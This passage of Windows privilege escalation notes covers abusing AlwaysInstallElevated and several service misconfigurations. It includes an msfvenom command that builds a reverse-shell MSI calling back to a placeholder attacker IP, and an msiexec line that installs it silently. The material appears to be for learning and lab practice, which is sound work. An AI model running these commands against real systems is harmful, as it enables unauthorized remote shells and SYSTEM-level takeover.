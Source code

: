 ```cmd
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```

To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. If these are set, we can generate a malicious `.msi` file using: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi`.

As this is a reverse shell, we should also run the Metasploit Handler module configured accordingly. Once we have transferred the file we have created, we can run the installer with the command below and receive the reverse shell: `msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`.

## Abusing Service Misconfigurations

### Windows Services

Windows services are managed by the Service Control Manager (SCM). The SCM is a process in charge of managing the state of services as needed, checking the current status of any given service and generally providing a way to configure services.

Each service on a Windows machine will have an associated executable which will be run by the SCM whenever a service is started. It is important to note that service executables implement special functions to be able to communicate with the SCM, and therefore not any executable can be started as a service successfully. Each service also specifies the user account under which the service will run.

Services have a Discretionary Access Control List (DACL), which indicates who has permission to start, stop, pause, query status, query configuration, or reconfigure the service, amongst other privileges. The DACL can be seen from Process Hacker.

All of the services configurations are stored on the registry under `HKLM\SYSTEM\CurrentControlSet\Services\`.

A subkey exists for every service in the system. The associated executable on the ImagePath value and the account used to start the service on the ObjectName value. If a DACL has been configured for the service, it will be stored in a subkey called Security. Only administrators can modify such registry entries by default.

### Insecure Permissions on Service Executables

If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially.

### Unquoted Service Paths

When we can't directly write into service executables as before, there might still be a chance to force a service into running arbitrary executables by using a rather obscure feature.

When working with Windows services, a very particular behaviour occurs when the service is configured to point to an "unquoted" executable. By unquoted, we mean that the path of the associated executable isn't properly quoted to account for spaces on the command.

### Insecure Service Permissions

We might still have a slight chance of taking advantage of a service if the service's executable DACL is well configured, and the service's binary path is rightly quoted. Should the service DACL (not the service's executable DACL) allow us to modify the configuration of a service, we will be able to reconfigure the service. This will allow us to point to any executable we need and run it with any account we prefer, including SYSTEM itself.
